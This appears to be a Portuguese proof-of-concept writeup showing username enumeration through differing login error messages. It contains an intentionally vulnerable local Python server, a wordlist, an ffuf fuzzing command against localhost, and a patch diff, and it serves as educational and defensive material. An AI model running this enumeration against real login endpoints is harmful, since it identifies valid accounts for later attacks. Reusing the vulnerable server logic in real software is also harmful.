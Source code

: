 # [PoC] Enumeração de Usuário via Resposta Diferencial
=============================================================================
Author: [Jéssica Moreira]
Date: 13/08/2025
Target: Ambiente Local (localhost:8000)
Description: Análise e exploração de uma falha de enumeração de usuário em um endpoint de autenticação. 
A vulnerabilidade é explorada via análise diferencial da resposta HTTP utilizando a ferramenta ffuf.

![Linguagem](https://img.shields.io/badge/Python-3.8%2B-blue)
![Licença](https://img.shields.io/badge/License-MIT-green)
=============================================================================


## [CVE-2025-XXXX] Análise da Vulnerabilidade

- **Vetor de Ataque:** Enumeração de Identidade
- **Endpoint Afetado:** `/login` (método `POST`)
- **Resumo Técnico:** O endpoint de autenticação exibe um comportamento de resposta não-uniforme. Ao receber um `payload` com um `username` válido, a API retorna a string *"Senha incorreta!"*. Para um `username` inválido, a resposta contém a string *"Usuario ou senha invalidos."*. Essa discrepância permite a um ator malicioso diferenciar entre contas existentes e não existentes.

## Ambiente de Testes (Lab Setup)

Para replicar a vulnerabilidade, o seguinte ambiente foi configurado.

<details>
<summary><code>./frontend/index.html</code></summary>

```html
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <title>Login Secreto</title>
</head>
<body>
    <h2>Área Restrita</h2>
    <form action="/login" method="post">
        <input type="text" name="username" placeholder="Nome de Usuário" required>
        <input type="password" name="password" placeholder="Senha" required>
        <button type="submit">Entrar</button>
    </form>
</body>
</html>
</details>



<details>
<summary><code>./backend/servidor.py</code></summary>

Python

from http.server import HTTPServer, BaseHTTPRequestHandler
import urllib.parse

USUARIOS_VALIDOS = ["admin", "suporte", "gato_ninja"]

class ServidorVulneravel(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/login':
            content_length = int(self.headers['Content-Length'])
            post_data_bytes = self.rfile.read(content_length)
            post_data_str = post_data_bytes.decode('utf-8')
            post_data = urllib.parse.parse_qs(post_data_str)
            username_submetido = post_data.get('username', [''])[0]

            # VULNERABILITY: Response bifurcation based on user existence
            if username_submetido in USUARIOS_VALIDOS:
                resposta_html = b"<h1>Senha incorreta!</h1>"
            else:
                resposta_html = b"<h1>Usuario ou senha invalidos.</h1>"

            self.send_response(200)
            self.send_header('Content-type', 'text/html; charset=utf-8')
            self.end_headers()
            self.wfile.write(resposta_html)

    def do_GET(self):
        if self.path == '/':
            self.send_response(200)
            self.send_header('Content-type', 'text/html; charset=utf-8')
            self.end_headers()
            with open('index.html', 'rb') as f:
                self.wfile.write(f.read())

print("Servidor iniciado em http://localhost:8000")
httpd = HTTPServer(('localhost', 8000), ServidorVulneravel)
httpd.serve_forever()
</details>


Prova de Conceito (PoC): Executando o Exploit
Payload (./usuarios.txt)
admin
root
teste
suporte
user
gato_ninja



# Script para executar a enumeração de usuários
ffuf \
  -w "usuarios.txt" \
  -u "http://localhost:8000/login" \
  -X POST \
  -d "username=FUZZ&password=123" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -mr "Senha incorreta"


Remediation: Aplicando o Patch
A correção envolve a normalização da resposta do endpoint. A mudança é apresentada abaixo no formato diff.

Diff

--- a/backend/servidor.py
+++ b/backend/servidor.py
@@ -14,12 +14,8 @@
             post_data = urllib.parse.parse_qs(post_data_str)
             username_submetido = post_data.get('username', [''])[0]
 
-            # VULNERABILITY: Response bifurcation based on user existence
-            if username_submetido in USUARIOS_VALIDOS:
-                resposta_html = b"<h1>Senha incorreta!</h1>"
-            else:
-                resposta_html = b"<h1>Usuario ou senha invalidos.</h1>"
-
+            # PATCH: Response is now generic, preventing enumeration.
+            resposta_html = b"<h1>Nome de usuario ou senha invalidos.</h1>"
+            
             self.send_response(200)
             self.send_header('Content-type', 'text/html; charset=utf-8')
             self.end_headers()
